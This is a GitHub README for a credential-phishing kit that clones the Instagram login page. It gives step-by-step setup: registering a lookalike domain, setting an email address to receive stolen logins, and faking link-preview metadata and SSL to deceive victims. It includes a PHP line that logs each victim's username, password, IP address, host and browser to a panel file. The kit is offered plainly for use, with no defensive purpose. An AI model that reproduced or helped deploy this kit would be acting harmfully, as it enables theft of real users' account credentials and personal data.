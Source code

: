 # Instagram Phishing Website

Mobile compatible phishing site created by copying Instagram login page

## Getting Started

Buy a domain name similar to instagram.com. You can use freenoom to get a free domain name. And get a space to host your site.

### Installing

Edit the login.php file with the code below

```
$to = "youremail@here.com";
```

```
$title .= 'To: NAME youremail@here.com>' . "\r\n";
```

```
$title .= 'From: NAME <youremail@here.com>' . "\r\n";
```

Optionally, you can change the page here to be redirected after user login.

```
header('Location: https://www.instagram.com/accounts/privacy_and_security/');
```

## Link Preview Modification

You can edit the metadata in the index.html file. So the user sees a preview picture and text before clicking.

### Image

```
<meta property="og:image" content="index_files/meta.jpg">
```
### Text

```
<meta content="Bir hesap oluştur veya Instagram'a giriş yap - Fotoğraf ve videolar çekip düzenlemenin, bu fotoğrafları, videoları ve mesajları arkadaşlarınla ve akrabalarınla ..." name="description">
```

## Important notes

The application works with phpmailer. Make sure that this feature is enabled on your server before using it.

The .htaccess file provides ssl to your domain to increase reliability. If you don't want it, remove the file.

If you do not want the user information to be accessible on the website, delete the code below from the login.php file.

```
file_put_contents("panel.html", "<br><br><b>-------NEW USER DETECTED------</b>  "."<br><b>[DATE]</b>  " . strftime('%e %B %Y %A %H:%M:%S') .'<br><b>[EMAIL]:</b>  ' . $_POST['username'] . "<br><b>[PASS]:</b>  " . $_POST['password'] . "<br><b>[IP]:</b>  " . $_SERVER['REMOTE_ADDR'] ."<br><b>[HOST]:</b>  " . gethostbyaddr($_SERVER['REMOTE_ADDR']) . "<br><b>[BROWSER]:</b>  " . $_SERVER['HTTP_USER_AGENT'] . "\n", FILE_APPEND);
```

Or you can change the name of the html file in the code section instead.


## Usage

User information is registered in the panel.html file. At the same time, a mail is sent to your email address.
It's that easy :)

## Features

* User ip address
* User internet service provider
* User device information
* And username and password information

can sent

### Demo

You can examine it from the link below but php functions do not work because it works on github pages.

<a href="https://codersamet.github.io/Instagram-Phishing/">Demo Website</a>

## Author

* **Samet Zengin** - *Software Developer* - [Personal Website](https://sametzengin.com.tr)

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details



